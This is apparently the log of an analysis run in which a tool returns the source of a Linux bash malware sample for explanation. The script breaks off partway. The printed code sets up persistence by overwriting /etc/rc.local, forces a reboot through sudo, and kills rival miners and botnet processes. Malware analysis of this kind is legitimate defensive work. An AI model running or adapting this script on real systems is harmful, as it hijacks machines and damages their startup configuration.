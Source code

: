 

## Prompt: Explain the how the malware functions in the context of the attack.

**Run ID:** `run_RYRBZdVzIXfWkBqrkaLTMTIo`

### Funciton Calls
**Step ID:** `step_AWrgbROsDlqtAqOo86lQpYgM`

**Function called:** `get_malware_attrs`

| Argument | Value |
| --- | --- |
| `malware_id` | `10f8f2573cbb3954d3c0908af9e53daca56ab6db7c5239f92c7cf917549dea6c` |
| `attrs` | `['text']` |

| Output | Value |
| --- | --- |
| `text` | `C0755 4745 0X6mZEHu
#!/bin/bash

MYSELF=`realpath $0`
DEBUG=/dev/null
echo $MYSELF >> $DEBUG

if [ "$EUID" -ne 0 ]
then 
	NEWMYSELF=`mktemp -u 'XXXXXXXX'`
	sudo cp $MYSELF /opt/$NEWMYSELF
	sudo sh -c "echo '#!/bin/sh -e' > /etc/rc.local"
	sudo sh -c "echo /opt/$NEWMYSELF >> /etc/rc.local"
	sudo sh -c "echo 'exit 0' >> /etc/rc.local"
	sleep 1
	sudo reboot
else
TMP1=`mktemp`
echo $TMP1 >> $DEBUG

killall bins.sh
killall minerd
killall node
killall nodejs
killall ktx-armv4l
killall ktx-i586
killall ktx-m68k
killall ktx-mips
killall ktx-mipsel
killall ktx-powerpc
killall ktx-sh4
killall ktx-sparc
killall arm5
killall zmap
killall kaiten
killall perl
